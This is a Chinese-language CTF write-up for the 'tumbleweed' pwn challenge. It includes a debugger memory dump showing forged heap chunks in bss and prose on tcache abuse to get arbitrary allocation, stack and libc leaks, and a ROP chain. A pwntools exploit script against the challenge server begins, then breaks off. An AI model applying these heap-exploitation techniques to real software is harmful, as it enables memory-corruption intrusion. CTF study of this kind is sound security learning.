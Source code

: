 # Exp1 (use c_allocator)

我的非预期解，由于`fba_buf`正好在`fba`结构体上面，使用`FBA.alloc`利用bss段上的数据伪造overlap chunk如下：

```bash
pwndbg> x /32gx 0x10083C0
0x10083c0 <tumbleweed.tumbleweed_incubators+248>:	0x0000000000000000	0x0000000000000000
────────────────────────────────── fake chunk1
0x10083d0 <tumbleweed.fba_buf+8>:	0x0000000000000000	0x0000000000000021
0x10083e0 <tumbleweed.fba_buf+24>:	0x0000000000000000	0x0000000000000000
────────────────────────────────── fake chunk2
0x10083f0 <tumbleweed.fba_buf+40>:	0x0000000000000000	0x0000000000000081
0x1008400 <tumbleweed.fba_buf+56>:	0x0000000000000000	0x0000000000000000
0x1008410 <tumbleweed.fba_buf+72>:	0x0000000000000000	0x0000000000000000
0x1008420 <tumbleweed.fba_buf+88>:	0x0000000000000000	0x0000000000000000
0x1008430 <tumbleweed.fba_buf+104>:	0x0000000000000000	0x0000000000000000
0x1008440 <tumbleweed.fba_buf+120>:	0x0000000000000000	0x0000000000000000 # _               end_index
0x1008450 <tumbleweed.fba+8>:	        0x00000000010083c8	0x0000000000000080 # fba.buffer.ptr  fba.buffer.len
0x1008460 <os.argv>:	0x00007fffffffddf8	0x0000000000000001
──────────────────────────────────
0x1008470 <os.environ>:	0x00007fffffffde08	0x0000000000000032
```

通过将指针回退到`0x1008400`，`c_alloctor.free`释放fake chunk2链入tcache，`c_allocator.alloc`将fake chunk2申请回来，即可修改`fba`实现任意地址分配。

这里直接通过fake chunk2泄露`os.argv`栈指针，而后再`c_allocator.free/alloc`释放申请一次fake chunk2，将`fba.buffer.ptr`指向main返回地址，最后`fba.alloc`泄露libc基址，`fba.resize`再`fba.alloc`写ROP即可。

```python
from pwn import *

local = 0
pc = './tumbleweed'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['tumbleweed.chal.pwni.ng', 1337]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
```